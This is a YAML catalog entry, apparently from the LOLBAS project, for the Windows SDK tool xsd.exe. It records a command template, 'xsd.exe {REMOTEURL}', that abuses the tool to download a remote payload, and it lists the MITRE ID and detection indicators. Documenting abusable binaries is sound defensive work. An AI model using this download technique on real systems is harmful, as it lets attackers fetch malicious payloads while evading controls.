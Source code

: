 ```yaml
---
Name: xsd.exe
Description: XML Schema Definition Tool included with the Windows Software Development Kit (SDK).
Author: Avihay Eldad
Created: 2024-04-09
Commands:
  - Command: xsd.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft SDKs\Windows\<version>\bin\NETFX <version> Tools\xsd.exe
Detection:
  - IOC: URL on a xsd.exe command line
  - IOC: xsd.exe making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

